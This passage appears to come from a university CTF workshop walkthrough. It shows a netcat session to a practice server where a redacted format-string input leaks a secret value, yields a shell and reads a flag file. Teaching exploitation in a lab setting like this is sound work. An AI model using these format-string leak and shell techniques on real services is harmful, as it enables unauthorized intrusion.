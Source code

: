 ### Once you have a shell locally

Connect to the remote server. Use the "exploit" you've developed to get a shell on the remote.
Using the shell, print out the flag.

```
ian@underclassmen-vm:~$ nc workshop.uwctf.club 20331
Give me something to say:
%X$zx # REDACTED
Holy 3e4790d800000000, Batman!
Hey, what number am I thinking of?
1044877528
You win!! Your number was:
1044877528

ls
bin
flag.txt
leakme
lib
lib64
cat flag.txt
BatCTF{xxxxxxxxxxxxxxxxxxxx} # REDACTED
```

Submit the flag on [ctf.sigpwny.com][2] and give yourself a pat on the back.

Try `leakme_short`! The same approach should work. Probably.


[1]: https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64
[2]: http://ctf.sigpwny.com
